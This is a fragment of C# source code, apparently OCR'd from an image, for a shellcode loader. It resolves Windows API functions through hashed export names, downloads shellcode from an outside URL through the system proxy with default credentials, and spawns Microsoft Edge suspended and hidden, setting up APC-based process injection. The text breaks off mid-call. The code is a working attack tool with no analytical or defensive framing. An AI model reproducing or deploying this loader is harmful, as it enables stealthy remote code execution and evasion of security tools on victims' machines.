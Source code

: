 ```
var hVallocEx = Generic.GetExportAddress(hk32, "F92B8426C2366E31B524B3B585F97E99", checksum);

var hWriteProcessMemory = Generic.GetExportAddress(hk32, "1CD3F65BFB5E450D8543FE7B977B6C64", checksum);

var hVirtualProtectEx = Generic.GetExportAddress(hk32, "0DF7A8E87D5CAEF515A030C2812ECFD3", checksum);

var hResumeThread = Generic.GetExportAddress(hk32, "B539F6FB3A23C8109C6A886019B8D622", checksum);

var hQueueUserAPC = Generic.GetExportAddress(hk32, "07D51485672E94A9B53FD02E19677BBF", checksum);

var hCloseHandle = Generic.GetExportAddress(hk32, "99EE8FED21A16F8E8C66CD2097879D79", checksum);

using (var client = new WebClient())

{

// make proxy aware

client.Proxy = WebRequest.GetSystemWebProxy();

client.UseDefaultCredentials = true;

// set allowed tls versions

ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12 | SecurityProtocolType.Tls13;

shellcode = client.DownloadData("https://www.infinity-bank.com/c");

};

var startup = new STARTUPINFO { dwFlags = 0x00000001 };

var processInfo = new PROCESS_INFORMATION();

startup.cb = Marshal.SizeOf(startup);

object boxedProcessInfo = processInfo;

object[] createProcessWParams =

{

@"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe",

@"""C:\Program Files\(x86)\Microsoft\Edge\Application\msedge.exe --no-startup-window --win-session-start /prefetch:5""",

IntPtr.Zero,

IntPtr.Zero,

false,

CREATION_FLAGS.CREATE_NO_WINDOW | CREATION_FLAGS.CREATE_SUSPENDED,

IntPtr.Zero,

@"C:\Program Files (x86)\Microsoft\Edge\Application",

startup,

```